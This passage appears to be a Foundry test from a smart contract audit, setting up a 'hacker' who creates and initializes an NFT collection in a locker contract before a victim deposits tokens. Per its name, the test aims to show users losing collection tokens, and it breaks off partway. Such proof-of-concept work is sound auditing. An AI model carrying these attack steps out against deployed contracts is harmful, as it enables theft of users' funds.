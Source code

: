 ```solidity
        deployAllContracts();

        vm.prank(user1);
        WETH.deposit{value: 100 ether}();

        vm.prank(user2);
        WETH.deposit{value: 100 ether}();

        vm.prank(hacker);
        WETH.deposit{value: 100 ether}();

    }
function test_ListBeforeExecuteAndUsersLostCollectionTokens()public{

        // Hacker creates a collection.
        vm.startPrank(hacker);

        address newCollectionToken = locker.createCollection(address(erc721a), "Mock", "MOCK", 0);

        uint256[] memory path = new uint256[](10);

        // Hacker approves 10 tokens to the locker contract to initialize the collection.
        for(uint i = 0; i < 10; i++){
            path[i] = i;
            erc721a.approve(address(locker), i);
        }

        WETH.approve(address(locker), 10 ether);


        // Hacker initialize the collection and send to locker 10 ERC721a. Hacker owns only one more out of the platform.
        locker.initializeCollection(address(erc721a), 1 ether, path, path.length * 1 ether, 158456325028528675187087900672);
        vm.stopPrank();





        // To call start() function, user2 must deposit first in order to get collectionTokens to vote.
        vm.startPrank(user2);

        // Approve TOKEN IDS To locker contract
        uint[] memory path2 = new uint[](10);

        uint iterations = 0;

        for(uint i = 11; i < 21; i++){
            erc721a.approve(address(locker), i);
            path2[iterations] = i;
            iterations++;
        }


        // User2 deposit and get collectionTokens in ratio 1:1
        locker.deposit(address(erc721a), path2);

        console.log("User2 CollectionToken Balance, BEFORE start a votation", CollectionToken(newCollectionToken).balanceOf(user2));


```